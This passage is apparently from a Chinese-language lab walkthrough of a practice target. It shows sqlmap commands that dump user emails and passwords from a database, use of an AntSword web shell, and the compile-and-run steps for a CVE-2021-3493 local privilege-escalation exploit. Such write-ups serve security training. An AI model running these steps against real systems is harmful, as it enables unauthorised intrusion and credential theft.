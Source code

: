 ```
sqlmap -r test -p query -D socialnetwork -T users --columns
```

![image-20211118151941038](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118151941038.png)

```
sqlmap -r test -p query -D socialnetwork -T users -C user_email,user_password --dump
```

![image-20211118152315735](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118152315735.png)

获得了admin账号的邮箱地址和密码，使用admin登录

![image-20211118152420558](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118152420558.png)

![image-20211118152513424](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118152513424.png)

但是在admin账号内也未发现可利用的信息。



### （时间yyds😄）

#### CVE-2021-3493本地提权

再次回到蚁剑shell中

![image-20211118153207728](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118153207728.png)

目标内核4.15.0-38 操作系统Ubuntu版本为18.04.1 现在较新的版本18.04.5

查询发现了较新的通用公共漏洞--

![image-20211118154013454](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118154013454.png)

思路：上传至目标靶机上，使用gcc编译后，本地执行

使用蚁剑文件管理上传到目标靶机上

![image-20211118155210947](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118155210947.png)

使用gcc编译后才可执行

```
gcc -o exp exploit.c
```

```
chmod +x exp
```

```
./exp
```

![image-20211118155624865](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118155624865.png)
